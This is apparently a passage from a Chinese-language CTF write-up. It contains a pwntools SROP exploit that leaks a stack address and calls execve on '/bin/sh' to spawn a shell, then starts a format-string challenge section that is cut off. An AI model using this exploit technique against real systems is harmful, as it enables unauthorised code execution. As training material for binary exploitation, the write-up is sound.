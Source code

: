 ```python
syscall  = 0x4000BE

# 布置好栈为后续做准备
# 第一次设置好栈空间
payload1 = p64(start) * 3
p.send(payload1)
sleep(1) # 两次发送之间稍微停顿一下

# 第二次设置rax为1(函数返回值放在rax中, 因此可以通过这个设置系统中断为rt_sigreturn)
# 为使用write读取栈做准备
payload2 = '\xb3'
p.send(payload2)

# 第三次读取栈地址用于写入/bin/sh
stack = u64(p.recv()[8:16])

# SROP执行read函数, 并将rsp跳转到stack用于下一步SROP
frame1 = SigreturnFrame()
frame1.rax = constants.SYS_read
frame1.rip = syscall
frame1.rsp = stack
frame1.rdi = 0
frame1.rsi = stack
frame1.rdx = 0x400
p.send(p64(start) + p64(sys_read) + bytes(frame1))
sleep(1) # 两次发送之间稍微停顿一下
p.send(p64(sys_read) + bytes(frame1)[:constants.SYS_rt_sigreturn - 8])

# SROP执行execve函数
frame2 = SigreturnFrame()
frame2.rax = constants.SYS_execve
frame2.rip = syscall
frame2.rsp = 0
frame2.rdi = stack + len(bytes(frame2)) + 16
frame2.rsi = 0
frame2.rdx = 0
p.send(p64(start) + p64(sys_read) + bytes(frame2) + b'/bin/sh\x00')
sleep(1) # 两次发送之间稍微停顿一下
p.send(p64(sys_read) + bytes(frame1)[:constants.SYS_rt_sigreturn - 8])

p.interactive()
```

##  格式化字符串漏洞

### wdb_2018_2nd_easyfmt
*   查看保护, 32位, 只有NX保护
![](./wdb_2018_2nd_easyfmt_1.png)
*   放入IDA并没有地方溢出, 但是程序将输入的数据直接用printf打印